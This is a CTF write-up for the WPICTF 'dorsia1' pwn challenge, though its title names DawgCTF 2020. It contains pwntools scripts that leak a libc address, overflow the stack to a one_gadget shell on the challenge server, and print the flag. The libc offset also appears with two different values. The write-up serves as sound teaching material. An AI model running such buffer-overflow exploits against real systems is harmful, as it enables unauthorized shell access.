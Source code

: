 # DawgCTF 2020

## dorsia1

> 100
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The first card.
>
> `nc dorsia1.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> _Hint: Same libc as dorsia4, but you shouldn't need the file to solve._

Tags: _pwn_


### Analysis

#### Roll the film ([dorsia.webm](../dorsia.webm))

![](dorsia1.png)

Quite possibly one of the best movies scenes ever (your results may vary), augmented with _new pwns_.  And ..., there are two verbal hints in the clip: _stack smash_ and _fgets_.

What I most appreciate about this challenge is that this is a legit fuckup.  You could (and can) actually expect someone to mistype the `69` as `96`.

The hint: _Same libc as dorsia4, but you shouldn't need the file to solve_, was actually delivered later in the challenge as users keep asking for the libc version.  I do not fully agree with that.  For starters is this x86_64, x86, arm, or something else?

The `printf` leaks the location of `system` with an offset (`765772`), this can be used to both determine the version of libc as well as the architecture.

Assuming x86_64 (safe bet) _stack smash_ with 69 bytes + 8 bytes for the saved base pointer then an 8 byte address as the new return address.  That leaves 16 bytes left (15 really since `fgets` will only read 68 bytes (one less than size parameter)).  This is important, because it'll tell you what will not work: `pop rdi; ret`, pointer to `/bin/sh`, `system`.  Which is exactly what I tried first (habit, I prefer this over gadgets because it is portable).  That 96th byte will be a NULL (0x00), and unless the remote libc address space starts with `0x00` (and it does not), then this will not work.  Plan B: try a gadget.

However, there is a 2nd, easier solution, and the hint spells that out for you.  `765772`.  What is that number and what does it mean?  It pays to be curious.


### Exploit

#### Attack Plan

1. Leak libc address
2. Find libc version
3. Find a gadget
2. Get the flag


#### Leak libc address

```
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

system = int(_,16) - 765772
print(hex(system))
```


#### Find libc version

```
import os
stream = os.popen("libc-database/find system " + str(hex(system & 0xFFF)) + " | grep /glibc/ | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()

libc = ELF('libc-database/db/' + output + '.so')
baselibc = system - libc.symbols['system']
print("libc:" + str(hex(baselibc)))
print('libc-database/db/' + output + '.so')
```

This code assumes you have the libc-database cloned locally, however there's an online version as well: [https://libc.blukat.me/](https://libc.blukat.me/) (tip from @ins0--thanks!).  Personally I prefer the local version, esp. if searching for gadgets or ROP chains, but it can also take about 30 minutes to download.  Options are good to have.

Running this will output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x783e16412440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x783e163c3000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
```

Now we have the libc version and binary.


#### Find a gadget

```
# one_gadget libc-database/db/libc6_2.27-3ubuntu1_amd64.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`0x4f322` looks the most promising.


#### Get the flag

```
gadget = 0x4f322

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(baselibc + gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

Filling the rest of the stack with NULLs is just habit--it can help however with `one_gadget`.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x7386ccfc1440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x7386ccf72000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### Flag

```
WPI{FEED_ME_A_STRAY_CAT}
```


### Be curious

```
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

gadget = int(_,16)

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

This basically just sends back `system+765722` as the return address in our _stack smash_.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### What is `system+765722`?

Let's find out:

```
# python3
Python 3.7.5 (default, Nov 20 2019, 09:21:52)
[GCC 9.2.1 20191008] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['system'] + 765722))
0x10a35a
```

Looking at the `one_gadget` output above it looks pretty close to `0x10a38c`.



